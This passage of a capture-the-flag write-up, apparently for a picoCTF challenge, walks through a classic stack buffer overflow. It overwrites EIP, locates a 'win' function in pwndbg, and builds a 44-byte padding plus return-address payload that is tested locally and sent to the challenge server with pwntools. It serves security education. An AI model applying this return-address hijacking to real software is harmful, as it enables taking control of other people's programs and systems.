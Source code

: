 And you can see `*EIP  0x42424242 ('BBBB')` we can control EIP by changing BBBB :) 

Now let's find the address of the win function. 

```
pwndbg> file vuln
Reading symbols from vuln...
Downloading separate debug info for /home/connor/Desktop/vuln
(No debugging symbols found in vuln)                                                                       
pwndbg> disassemble win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
...
```

We get `080491f6`, then converting to little endian, is `f6910408`.

Creating the payload:

```python
import sys
sys.stdout.buffer.write(b"A"*44 + bytes.fromhex('f6910408'))
```

```
[~/Desktop] 
$ python create_payload.py > payload 

[~/Desktop] 
$ ./vuln < payload 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.

[~/Desktop] 
$ echo "testflag" > flag.txt

[~/Desktop] 
$ ./vuln < payload 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
testflag
Segmentation fault (core dumped)
```

It works locally!

You can also use this function `from pwn import p32` to avoid manually converting to little endian.

```python
from pwn import p32, remote

payload = b"A"*44 + p32(0x080491f6)
io = remote("saturn.picoctf.net", 56437)
io.read()
io.sendline(payload)
io.interactive()
```
